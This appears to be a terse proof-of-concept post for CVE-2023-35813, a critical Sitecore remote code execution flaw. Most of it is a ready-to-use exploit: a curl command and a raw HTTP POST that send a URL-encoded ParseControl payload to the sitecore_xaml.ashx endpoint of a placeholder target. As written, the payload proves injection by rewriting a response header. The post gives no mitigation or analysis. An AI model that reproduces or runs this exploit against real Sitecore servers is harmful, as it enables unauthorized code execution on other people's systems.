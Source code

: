 CVE: 2023-35813
CVSS Score: 9.8
Severity: Critical 

Here we are going to give command like return HTTP header  response back like -

My Request -

content-type: admin

Response should be -

content-type: admin

Remote Code Execution 




#poc

`curl --data '__ISEVENT=1&__SOURCE=&__PARAMETERS=ParseControl("%3C%25%40Register%0A%20%20%20%20%20%20%20%20TagPrefix%20%3D%20%27x%27%0A%20%20%20%20%20%20%20%20Namespace%20%3D%20%27System.Runtime.Remoting.Services%27%0A%20%20%20%20%20%20%20%20Assembly%20%3D%20%27System.Runtime.Remoting%2C%20Version%3D4.0.0.0%2C%20Culture%3Dneutral%2C%20PublicKeyToken%3Db77a5c561934e089%27%0A%20%20%20%20%25%3E%0A%20%20%20%20%3Cx%3ARemotingService%20runat%3D%27server%27%0A%20%20%20%20%20%20%20%20Context-Response-ContentType%3D%27kro%20the%20best%27%0A%20%20%20%20%2F%3E")'http:// <target> /sitecore_xaml.ashx/-/xaml/Sitecore.Xaml.Tutorials.Styles.Index -v`


#poc
burp

```
POST /sitecore_xaml.ashx/-/xaml/Sitecore.Xaml.Tutorials.Styles.Index HTTP/2
Host:  <target> 
Content-Type: application/x-www-form-urlencoded
Content-Length: xxx


__ISEVENT=1&__SOURCE=&__PARAMETERS=ParseControl("%3C%25%40Register%0A%20%20%20%20%20%20%20%20TagPrefix%20%3D%20%27x%27%0A%20%20%20%20%20%20%20%20Namespace%20%3D%20%27System.Runtime.Remoting.Services%27%0A%20%20%20%20%20%20%20%20Assembly%20%3D%20%27System.Runtime.Remoting%2C%20Version%3D4.0.0.0%2C%20Culture%3Dneutral%2C%20PublicKeyToken%3Db77a5c561934e089%27%0A%20%20%20%20%25%3E%0A%20%20%20%20%3Cx%3ARemotingService%20runat%3D%27server%27%0A%20%20%20%20%20%20%20%20Context-Response-ContentType%3D%27kro%20the%20best%27%0A%20%20%20%20%2F%3E
```
